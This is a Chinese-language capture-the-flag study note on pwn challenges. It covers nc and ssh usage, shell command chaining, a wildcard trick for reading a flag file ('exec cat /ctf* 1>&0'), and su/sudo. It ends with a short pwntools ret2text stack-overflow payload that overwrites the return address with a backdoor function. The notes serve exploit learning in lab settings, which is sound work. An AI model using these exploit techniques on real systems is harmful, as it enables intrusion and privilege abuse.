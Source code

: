 #### 远程链接：

**nc 域名(ip) 端口：**

1. 网络连接工具，常用于端口监听、数据传输等 ，无加密，数据传输为明文 

2. 调试、端口扫描、简单数据传输等 

**ssh username@hostname：** 

1. 安全的远程登录和执行命令， 提供加密，保证数据传输安全 

2. 远程管理、执行命令、文件传输、端口转发等  

#### 终端命令：

##### **1.执行命令：**

- 在Linux命令中，分号（ ; ）用于分隔多个命令，允许在一行上顺序执行多个命令。 
- 可以使用 & 将两条命令拼接在一起可以实现并行执行，即这两条命令将同时在后台执行。
- 在Linux中，通配符 * 表示匹配任意长度（包括零长度）的任意字符序列。 所以cat /ctf*能够读到flag
- exec 函数来执行 sh 命令:   "exec cat /ctf* 1>&0"   (其中1>&0是输出重定向)

##### 2.查找地址

```shell
which python
pip list
```

##### 4.读写命令：

- \>\>符号表示以追 加的方式写入文件，如果文件不存在则创建新文件。echo 'flag is here'>>/ctfshow_flag
- \> 符号表示以覆盖 的方式写入文件，如果文件不存在则创建新文件。

##### **5.权限命令：**

- su 用户名：切换用户
- sudo -i：进入root权限状态

## 三，pwn的题型

### 栈溢出

#### ret2**

##### ret2text:

有backdoor函数（直接给权限），存在栈溢出，直接溢出攻击到指定位置。

```python
from pwn import *
elf = ELF('pwn')
backdoor = elf.sym['backdoor']

#32位ebp+4
payload = b'A'*(0x12+4)+p32(backdoor)

#64位要加ret地址在返回函数前
#64位rbp+8
payload = b'a'*(0x12+8)+p64(ret)+p64(backdoor)

io.sendline(payload)
```
